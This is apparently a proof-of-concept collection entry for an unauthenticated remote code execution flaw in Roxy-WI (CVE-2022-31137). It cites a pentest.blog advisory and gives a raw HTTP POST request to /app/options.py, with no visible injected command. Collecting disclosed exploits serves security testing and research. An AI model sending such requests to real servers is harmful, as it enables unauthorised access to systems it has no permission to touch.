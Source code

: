 ## Roxy-WI 未经身份验证的远程代码执行

> https://pentest.blog/advisory-roxy-wi-unauthenticated-remote-code-executions-cve-2022-31137/
```
POST /app/options.py HTTP/1.1
Host: 192.168.56.116
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:101.0) Gecko/20100101 Firefox/101.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 105
Origin: https://192.168.56.114
Dnt: 1
Referer: https://192.168.56.114/app/login.py
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

alert_consumer=notNull&serv=roxy-wi.access.log&rows1=10&grep=&exgrep=&hour=00&minut=00&hour1=23&minut1=45
```
